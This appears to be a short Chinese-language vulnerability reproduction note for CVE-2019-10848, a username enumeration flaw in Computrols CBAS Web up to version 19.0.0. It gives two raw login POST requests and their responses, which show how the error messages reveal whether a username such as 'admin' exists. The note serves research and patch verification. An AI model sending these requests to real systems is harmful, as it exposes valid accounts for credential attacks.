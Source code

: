 ```yaml
---
title: "（CVE-2019-10848）Computrols CBAS Web 用户名枚举"
id: zhfly2852
---
```


# （CVE-2019-10848）Computrols CBAS Web 用户名枚举

## 一、漏洞简介

## 二、漏洞影响

19.0.0及以下

## 三、复现过程

### 测试无效用户：

```
POST /cbas/index.php?m=auth&a=login HTTP/1.1 `username=randomuser&password=&challenge=60753c1b5e449de80e21472b5911594d&response=e16371917371b8b70529737813840c62` 
```

Response

```
<!-- Failed login comments appear here -->
<p class="alert-error">randomuser</p> 
```

### 测试有效用户：

```
POST /cbas/index.php?m=auth&a=login HTTP/1.1 `username=admin&password=&challenge=6e4344e7ac62520dba82d7f20ccbd422&response=e09aab669572a8e4576206d5c14befc5s` 
```

Response

```
<!-- Failed login comments appear here -->
<p class="alert-error">Invalid username/password combination.  Please try again!</p> 
```